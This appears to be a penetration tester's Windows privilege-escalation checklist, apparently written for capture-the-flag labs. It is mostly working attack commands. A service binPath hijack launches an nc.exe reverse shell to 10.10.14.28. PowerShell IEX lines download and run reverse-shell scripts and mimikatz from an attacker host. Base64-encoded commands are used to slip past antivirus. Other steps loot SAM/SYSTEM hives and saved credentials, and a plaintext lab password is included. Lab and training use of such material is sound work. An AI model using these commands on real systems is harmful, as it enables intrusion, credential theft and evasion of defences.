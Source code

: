 # Checklist



Check List:

1. use windows-exploit-suggester.py

`systeminfo > sys.txt`

Transfer sys.txt to kali and use this with the python script.

Example:

`python windows-exploit-suggester.py --database 2019-10-11-mssb.xls --systeminfo sys.txt`

In order to get the database file do `python windows-exploit-suggester.py --update`

NOTE: List files you saw when you enumerated the web and looked intersering. Example:

`secret.php` `db.php` `auth.php`

Read them after getting a basic shell - might have creds in them if so `net user` try the creds against users - maybe it matches.

Example: `runas /user:Administrator cmd.exe` Check running process

1. `ps`

```text
Get-WmiObject -Query "Select * from Win32_Process" | where {$_.Name -notlike "svchost*"} | Select Name, Handle, @{Label="Owner";Expression={$_.GetOwner().User}} | ft -AutoSize
```

remmber PID of weird process Write it down and use 2. `netstat -ano` Check for open ports - google that port - what is it ?

see Users 3. `net user`

see specific username information / groups 4. `net user username` - which group is he in ? Logs reader ? read logs - maybe passwords hidden, maybe automatic script the read logs inject command!, part of "Remote Management Group" ? maybe use WinRM

1. check Credentials mananger:

`dir C:\Users\username\AppData\Local\Microsoft\Credentials\` `dir C:\Users\username\AppData\Roaming\Microsoft\Credentials\` `cmdkey /list` if is has keys try:

Domain could be also Hostname or just use username alone runas /user:DOMAIN\Username /savecred command

if that doesnt work - try Meterpreter `load incognito`- maybe impersonate to a certain user

1. check `Documents` folder
2. check `Downloads` folder
3. check `Program Files (x86)` folder
4. check `Program Files` folder
5. check `AppData` folder and etc `Local` - `LocalLow` - `Roaming`

Look for werid files and installed programs - look for exploits in them.

1. check services with write access - to change binpath

`accesschk.exe -accepteula -uvwc *`

Example:

1. `sc config usosvc binPath="C:\Windows\System32\spool\drivers\color\nc.exe 10.10.14.28 9001 -e cmd.exe"` $ Start a listener on port 9001
2. `sc stop usosvc`
3. `sc start usosvc`
4. get a shell.
5. Check for files like .txt / .php - read them. check for automated scripts that are waiting for scertain files for example:

"Admin is waiting for PDF drop it in C:\Docs" - create a Malicious PDF - drop it

1. Look for backups files `SAM.bak` - `SYSTEM.bak`/ windows image backup.

```text
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```

1. What Groups are on the system? `net localgroup`
2. Unquoated services ? if so hijack it!

```text
wmic service get name,displayname,pathname,startmode 2>nul |findstr /i "Auto" 2>nul |findstr /i /v "C:\Windows\\" 2>nul |findstr /i /v """
```

1. What scheduled tasks are there? Anything custom implemented?

`schtasks /query /fo LIST 2>nul | findstr TaskName`

or in powershell:

`Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State`

1. what is running on startup ?

`wmic startup get caption,command`

1. Permissions on specific folders ?

```text
icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "Everyone"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "Everyone"
```

NOTE: Change the value of "Everyone" to your desire. example:

```text
icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users"
```

1. If you have user Creds and WinRM is open try:

NOTE: Change Values `$user` and `$pw` to match your case.

```text
$user = 'SNIPER\Chris'
$pw = '36mEAhz/B8xQ~2VM'
$secpw = ConvertTo-SecureString $pw -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential $user,$secpw
```

Possible to convert into one-liner:

```text
$user = 'SNIPER\Chris';$pw = '36mEAhz/B8xQ~2VM';$secpw = ConvertTo-SecureString $pw -AsPlainText -Force;$cred = New-Object System.Management.Automation.PSCredential $user,$secpw
```

and then:

```text
Invoke-Command -Computer localhost -Credential $cred -ScriptBlock {command}
```

Get command at the user you prompted

1. If WinRM isn't available do the same to store creds but use

```text
Start-Process -FilePath "powershell.exe" -Argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.8/Invoke-PowerShellTcp.ps1')" -Credential $cred
```

1. Wanna Download something?

```text
IEX(New-Object Net.WebClient).downloadString('URL')
(New-Object Net.WebClient).DownloadFile('http://10.10.14.28/mimikatz.exe', 'mimikatz.exe')
```

1. AV on ? Command Filtering ?

```text
cat Invoke-PowerShellTcp.ps1 | iconv -t UTF-16LE | base64 -w0 | xclip -selection clipboard
```

or with a command in plain-text:

```text
echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.28/Invoke-PowerShellAdmin.ps1')" | iconv -t UTF-16LE | base64 -w 0 | xclip -selection clipboard
```

to execute the output use

`powershell -enc`

exmaple : Note - not real output of base64 made it shorter for example.

```text
powershell -enc AMAAuADEANAAuADIAOAAvAEkAbgB2AG8AawBlAC0AUABvAHcAZQByAFMAaABlAGwAbABBAGQAbQB
```

